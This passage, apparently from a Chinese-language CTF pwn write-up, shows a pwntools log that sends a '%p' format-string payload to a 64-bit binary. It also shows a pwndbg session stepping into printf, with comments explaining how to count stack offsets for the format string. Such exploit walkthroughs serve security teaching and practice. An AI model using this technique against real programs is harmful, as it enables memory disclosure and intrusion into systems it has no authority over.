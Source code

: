 ```
    '*                                            *n'
    '**********************************************n'
    'Register Account first!n'
    'Input your username(max lenth:20): n'
[DEBUG] Sent 0x9 bytes:
    'aaaaaaaan'
[DEBUG] Received 0x24 bytes:
    'Input your password(max lenth:20): n'
[DEBUG] Sent 0x11 bytes:
    '%p%p%p%p%p%p%p%pn'
[DEBUG] Received 0x5f bytes:
    'Register Success!!n'
    '1.Sh0w Account Infomation!n'
    '2.Ed1t Account Inf0mation!n'
    '3.QUit sangebaimao:(n'
    '&gt;'
[DEBUG] Sent 0x2 bytes:
    '1n'
[DEBUG] Received 0x9 bytes:
    'aaaaaaaan'
```

下面si只是为了跟进printf函数，个人习惯……不跟也行，只要你知道怎么数格式化串在哪，跟进去的话栈上第一个就肯定是返回地址，注意这里是64位程序，所以返回地址后跟着的就是参数7（offset 6),参数8（offset 7)…..

```
pwndbg&gt; si
0x0000000000400770 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[──────────────────────────────────REGISTERS───────────────────────────────────]
 RAX  0x0
 RBX  0x0
 RCX  0x400
 RDX  0x7f6c9f8829e0 (_IO_stdfile_1_lock) ◂— 0x0
 RDI  0x7fff8ee7f1e4 ◂— 0x7025702570257025 ('%p%p%p%p')---&gt;格式化字符串存在rdi里
 RSI  0x7f6c9faa6000 ◂— 0x6161616161616161 ('aaaaaaaa')
.....
[────────────────────────────────────DISASM────────────────────────────────────]
 ► 0x400770                      jmp    qword ptr [rip + 0x20184a]    &lt;0x7f6c9f512340&gt;
    ↓
   0x7f6c9f512340 &lt;printf&gt;       sub    rsp, 0xd8
   0x7f6c9f512347 &lt;printf+7&gt;     test   al, al
   0x7f6c9f512349 &lt;printf+9&gt;     mov    qword ptr [rsp + 0x28], rsi
   0x7f6c9f51234e &lt;printf+14&gt;    mov    qword ptr [rsp + 0x30], rdx
   0x7f6c9f512353 &lt;printf+19&gt;    mov    qword ptr [rsp + 0x38], rcx
   0x7f6c9f512358 &lt;printf+24&gt;    mov    qword ptr [rsp + 0x40], r8
   0x7f6c9f51235d &lt;printf+29&gt;    mov    qword ptr [rsp + 0x48], r9
   0x7f6c9f512362 &lt;printf+34&gt;    je     printf+91                     &lt;0x7f6c9f51239b&gt;
    ↓
   0x7f6c9f51239b &lt;printf+91&gt;    lea    rax, [rsp + 0xe0]
   0x7f6c9f5123a3 &lt;printf+99&gt;    mov    rsi, rdi
[────────────────────────────────────STACK─────────────────────────────────────]
00:0000│ rsp    0x7fff8ee7f1b8 —▸ 0x400b3e 返回地址
01:0008│ rbp    0x7fff8ee7f1c0 —▸ 0x7fff8ee7f200 offset 6(因为格式化串是参数1，前6个参数存在寄存器里，所以这里是参数7，相对格式化串就是偏移6)
02:0010│        0x7fff8ee7f1c8 —▸ 0x400d74 offset 7
03:0018│        0x7fff8ee7f1d0 ◂— 'aaaaaaaan' offset 8
04:0020│        0x7fff8ee7f1d8 ◂— 0xa /* 'n' */ offset 9
05:0028│ rdi-4  0x7fff8ee7f1e0 ◂— 0x7025702500000000 offset 10
06:0030│        0x7fff8ee7f1e8 ◂— '%p%p%p%p%p%pn'
07:0038│        0x7fff8ee7f1f0 ◂— 0xa70257025 /* '%p%pn' */
[──────────────────────────────────BACKTRACE───────────────────────────────────]
 ► f 0           400770
   f 1           400b3e
```